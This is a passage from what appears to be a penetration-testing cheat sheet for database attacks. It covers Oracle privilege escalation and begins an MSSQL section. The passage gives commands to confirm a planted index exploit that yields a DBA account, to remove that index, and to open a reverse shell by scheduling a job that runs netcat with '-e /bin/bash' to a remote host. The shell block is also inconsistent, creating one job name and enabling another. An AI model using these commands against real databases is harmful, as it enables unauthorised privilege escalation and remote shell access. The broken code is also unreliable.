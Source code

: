 <h5 id="run-the-exploit-with-a-select-query">
Run the exploit with a select query:
</h5>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>SQL&gt; Select * from session_privs; 
</code></pre>
:::
::::

<p>
You should have a DBA user with creds user1 and pass1.
</p>
<p>
Verify you have DBA privileges by re-running the first command again.
</p>
<h5 id="remove-the-exploit-using">
Remove the exploit using:
</h5>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>drop index exploit_1337; 
</code></pre>
:::
::::

<h5 id="get-oracle-reverse-os-shell">
Get Oracle Reverse os-shell:
</h5>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>begin
dbms_scheduler.create_job( job_name    =&gt; 'MEH1337',job_type    =&gt;
    'EXECUTABLE',job_action =&gt; '/bin/nc',number_of_arguments =&gt; 4,start_date =&gt;
    SYSTIMESTAMP,enabled    =&gt; FALSE,auto_drop =&gt; TRUE); 
dbms_scheduler.set_job_argument_value('rev_shell', 1, 'TARGET-IP');
dbms_scheduler.set_job_argument_value('rev_shell', 2, '443');
dbms_scheduler.set_job_argument_value('rev_shell', 3, '-e');
dbms_scheduler.set_job_argument_value('rev_shell', 4, '/bin/bash');
dbms_scheduler.enable('rev_shell'); 
end; 
</code></pre>
:::
::::

<h3 id="mssql">
MSSQL
</h3>
<p>
Enumeration / Discovery:
</p>
<p>
Nmap:
</p>
